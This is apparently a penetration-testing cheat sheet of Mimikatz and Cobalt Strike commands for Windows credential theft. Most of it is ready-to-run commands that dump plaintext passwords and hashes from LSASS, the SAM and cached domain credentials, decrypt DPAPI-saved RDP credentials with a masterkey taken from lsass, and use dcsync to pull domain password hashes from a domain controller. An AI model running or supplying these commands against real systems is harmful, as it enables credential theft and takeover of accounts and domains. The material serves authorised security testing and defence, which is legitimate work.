 # Mimikatz and Kekeo Commands

## Sekurlsa

Get the classic `logonpasswords` for hashes and plaintext:

`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`

## LSADump

Dumping a computer's SAM:

`mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam"`

This returns the SysKey, SAMKey, and hashes.

Dumping cached domain credentials (MsCacheV2):

`mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache"`

MsCacheV2 creds are type 2100 and need to be formatted for Hashcat like so:

`$DCC2$10240#USERNAME#HASH`

## DPAPI

Can be used tor ecover saved credentials, like for RDP. A good example use case: https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/

Check for saved RDP credentials and other creds:

`vaultcmd /listcreds:"Windows Credentials" /all`

Saved creds are stored in: C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

Review the contents of a user's Credentials directory:

`Get-ChildItem C:\Users\<username>\AppData\Local\Microsoft\Credentials\ -Force`

Example child item: 2647629F5AA74CD934ECD2F88D64ECD0

Take a look at blob with Mimikatz:
`mimikatz.exe "dpapi::cred /in:C:\Users\some_user\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0"`

`pbData` is what we want to decrypt and `guidMasterKey` is the key.

Check lsass.exe for the key:
`mimikatz.exe "privilege::debug" "sekurlsa::dpapi"`

Look for a `masterkey` field associated with the target user. Assuming one is found, decrypt the cached credentials:

`mimikatz.exe "dpapi::cred /in:C:\Users\rasta_mouse\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b"`

Plaintext password is found in `CredentialBlob`.

## Mimikatz from Meterpreter

Migrate to a 64-bit process before proceeding. Then `use kiwi` or `use mimikatz`.

## Mimikatz from a Beacon

The `logonpasswords` command will use mimikatz to recover plaintext passwords and hashes for users who are logged on to the current system. The logonpasswords command is the same as [beacon] -> Access -> Run Mimikatz.

Use `dcsync [DOMAIN.FQDN] [DOMAIN\user]` to pull a password hash for a user from the domain controller. This technique uses Windows APIs built to sync information between domain controllers. It requires a Domain Administrator trust relationship. Beacon uses Mimikatz to execute this technique.

Use `mimikatz` to execute a custom Mimikatz command, such as those above. Prefix a command with a `!` to force mimikatz to elevate to SYSTEM before it runs your command. For example, mimikatz `!lsa::cache` will recover salted password hashes cached by the system.